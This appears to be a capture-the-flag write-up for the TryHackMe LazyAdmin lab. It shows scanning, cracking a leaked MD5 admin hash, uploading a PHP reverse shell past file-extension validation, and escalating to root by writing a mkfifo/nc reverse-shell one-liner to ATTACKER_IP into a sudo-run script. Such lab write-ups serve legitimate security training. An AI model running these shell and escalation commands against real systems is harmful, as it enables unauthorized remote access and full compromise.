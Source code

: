 # [LazyAdmin](https://tryhackme.com/room/lazyadmin)

## Easy linux machine to practice your skills

### What is the user flag?

1. First, scan for open ports with `nmap` to identify available services

```bash
nmap IP
```

![SCREEN01](https://github.com/user-attachments/assets/5f1f2398-f32e-4adc-8fd9-4c3d3d1eca2a)

2. Enumerate directories on the web server using `gobuster` to discover hidden content
   - We've discovered a `/content` directory. The web application is running `SweetRice`, a Content Management System

```bash
gobuster dir -u http://IP -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![SCREEN02](https://github.com/user-attachments/assets/5f23b76e-b310-472d-b8df-6cbd2481ec25)

3. Scan `/content` directory to find additional resources
   - This reveals two interesting directories: `/content/inc/mysql_backup/` and `/content/as/`

```bash
gobuster dir -u http://IP/content -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
```

4. Investigating the `/content/inc/mysql_backup/` directory in the browser, we discover a database backup file `mysql_bakup_20191129023059-1.5.1.sql`
   - There are credentials for manager: `manager:42f749ade7f9e195bf475f37a44cafcb`

```bash
grep "admin" mysql_bakup_20191129023059-1.5.1.sql
```

![SCREEN03](https://github.com/user-attachments/assets/9ab71195-8301-4afa-b155-a11f40fbfdc5)

5. Crack this MD5 hash using [CrackStation](https://crackstation.net/) and login to `http://IP/content/as/`

![SCREEN04](https://github.com/user-attachments/assets/c2d34ab0-73c1-406f-b3f2-e84335f69e59)

6. Create a [PHP reverse shell](https://github.com/mosec0/Reverse-Shell/blob/main/reverse-shell.php) and upload it to `http://IP/content/as/?type=media_center`. We need to change extension of the file to bypass validation

![SCREEN05](https://github.com/user-attachments/assets/4b393023-4d3f-4cbc-9e1c-e21bfa55dd42)

7. Before triggering the shell (by clicking on the file), set up a netcat listener on our attack machine

8. Upgrade shell and get the user flag

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
cat /home/itguy/user.txt
```

![SCREEN06](https://github.com/user-attachments/assets/a7c73266-a851-40bd-a870-746bc7c7792e)

---

### What is the root flag?

1. Check what sudo permissions we have

```bash
sudo -l
```

![SCREEN07](https://github.com/user-attachments/assets/030e1774-2e51-4efc-b271-018dde4f324f)

2. We can run `/usr/bin/perl` `/home/itguy/backup.pl` with sudo privileges

```bash
cat backup.pl
cat etc/copy.sh
```

![SCREEN08](https://github.com/user-attachments/assets/5cf67d08-5f7c-4f4e-b0b1-a63ab000aa1c)

3. Set another listener and replace the ip in `etc/copy.sh` script with our own and run it

```bash
nc -lvnp 5554
```

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP 5554 > /tmp/f" > /etc/copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
```

![SCREEN09](https://github.com/user-attachments/assets/2a4e412d-fbce-4b15-aac2-35aabf9688d4)

4. Get the root flag

```bash
whoami
cat /root/root.txt
```

![SCREEN10](https://github.com/user-attachments/assets/70b0f7f9-f271-4bfd-a428-73f23c514f85)
